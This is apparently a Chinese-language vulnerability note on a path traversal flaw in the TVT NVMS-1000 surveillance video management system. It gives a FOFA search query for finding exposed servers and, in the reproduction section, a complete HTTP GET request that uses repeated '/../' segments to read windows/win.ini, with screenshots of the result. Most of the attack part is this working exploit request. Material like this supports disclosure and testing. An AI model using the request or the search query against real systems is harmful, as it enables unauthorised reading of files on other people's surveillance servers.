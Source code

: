# TVT数码科技 NVMS-1000 路径遍历漏洞

## 漏洞描述

TVT数码科技 TVT NVMS-1000是中国TVT数码科技公司的一套网络监控视频管理系统。 TVT数码科技 TVT NVMS-1000中存在路径遍历漏洞。远程攻击者可通过发送包含/../的特制URL请求利用该漏洞查看系统上的任意文件

## 漏洞影响

```
TVT NVMS-1000
```

## FOFA

```
app="TVT-NVMS-1000"
```

## 漏洞复现

登录页面如下



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162301376.png)发送请求包读取文件

```plain
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162302589.png)